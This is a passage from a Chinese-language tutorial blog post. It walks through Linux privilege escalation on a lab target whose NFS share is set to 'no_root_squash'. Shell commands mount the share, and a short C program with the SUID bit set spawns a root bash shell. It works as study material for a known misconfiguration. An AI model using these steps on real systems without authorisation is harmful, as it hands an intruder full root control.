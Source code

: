 ```
cat /etc/exports
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/df6eca25ad4d467cb52cfd02e7f21a15.png)
可以看到，这台主机共享了三个文件夹，在上面看到的“no_root_squash”选项。默认情况下，NFS 会将 root 用户更改为 nfsnobody 并剥夺任何文件以 root 权限操作。如果可写共享上存在“no_root_squash”选项，我们可以创建一个设置了 SUID 位的可执行文件并在目标系统上运行它
回到kali，我们查看目标主机开放的文件夹
```
showmount -e IP
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7798c6b28cd74f54a4ca2be5073adc78.png)
我们在tmp目录下创建一个文件夹来挂载这些文件夹
```
cd /tmp
mkdir test
mount -o rw IP:/tmp /tmp/test
```
然后我们进入test文件夹，创建一个文件
```
cd test
mkdir test
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/be9965b00a674c2f9ebb4f6661b8be6c.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e663f334b9b7423d94c7e5a294067548.png)
可以看到，目标靶机的tmp目录下也多了一个test文件
回到kali，我们可以创建一个suid文件，运行就能获得root权限
```
touch exp.c
```
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
然后gcc编译此文件，然后赋予此文件suid权限
```
gcc exp.c -o exp
chmod +s exp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cedfb23f930544f19f12520e2d83b958.png)
回到靶机，我们运行此文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/65598e0825244981ac2079cf945d1e64.png)
成功拿到root权限
# 总结
提权需要详细的收集目标机子上的信息，然后根据我上面总结的方法来慢慢提权，这篇文章是我学习中的笔记，和本人的提权经验，有什么不会的就问我，qq：3316735898


